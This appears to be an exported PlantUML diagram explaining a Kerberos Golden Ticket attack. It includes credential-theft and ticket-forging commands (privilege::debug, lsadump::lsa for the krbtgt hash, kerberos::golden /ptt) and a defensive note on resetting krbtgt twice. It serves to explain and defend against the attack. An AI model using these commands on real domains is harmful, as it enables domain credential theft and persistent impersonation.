

The diagram above was rendered by PlantUML. Its source (embedded in the PNG):
@startuml
title Golden Ticket — from DC compromise to persistent access

participant "Attacker" as ATK
participant "Domain Controller\n(LSASS / krbtgt)" as DC
participant "Workstation\n(attacker-controlled)" as WS
participant "Target service\n(e.g. file server)" as SVC

== One-time theft on the DC ==
ATK -> DC : privilege::debug
ATK -> DC : lsadump::lsa /inject /name:krbtgt
DC --> ATK : krbtgt NTLM/AES hash + domain SID

== Later, from anywhere ==
ATK -> WS : kerberos::golden\n(domain, SID, krbtgt hash,\nuser, id) /ptt
note over WS
  Forged TGT injected into the
  current session. No contact
  with the DC was needed to mint it.
end note
WS -> SVC : present forged TGT -> request service ticket
SVC -> DC : (normal Kerberos validation)
DC --> SVC : ticket valid (encrypted with krbtgt key)
SVC --> WS : access granted as the impersonated identity

note over ATK, SVC
  Persists until the krbtgt password
  is reset TWICE. A single reset is
  not enough (password history = 2).
end note
@enduml